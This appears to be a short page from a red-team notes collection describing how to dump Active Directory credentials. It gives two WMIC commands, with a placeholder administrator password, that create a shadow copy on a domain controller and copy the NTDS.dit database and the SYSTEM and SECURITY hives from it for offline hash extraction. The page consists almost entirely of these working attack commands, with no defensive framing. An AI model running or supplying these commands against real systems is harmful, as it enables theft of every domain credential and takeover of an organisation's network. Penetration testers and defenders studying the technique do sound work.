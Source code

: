 # Wmic and Vssadmin Shadow Copy

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin" %}

{% code overflow="wrap" %}
```bash
# Create a shadow copy of the C drive of the Domain Controller:
CMD> wmic /node:dc01 /user:administrator@corp /password:lab process call create "cmd /c vssadmin create shadow /for=C: 2>&1"

# Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:
CMD> wmic /node:dc01 /user:administrator@corp /password:lab process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endcode %}

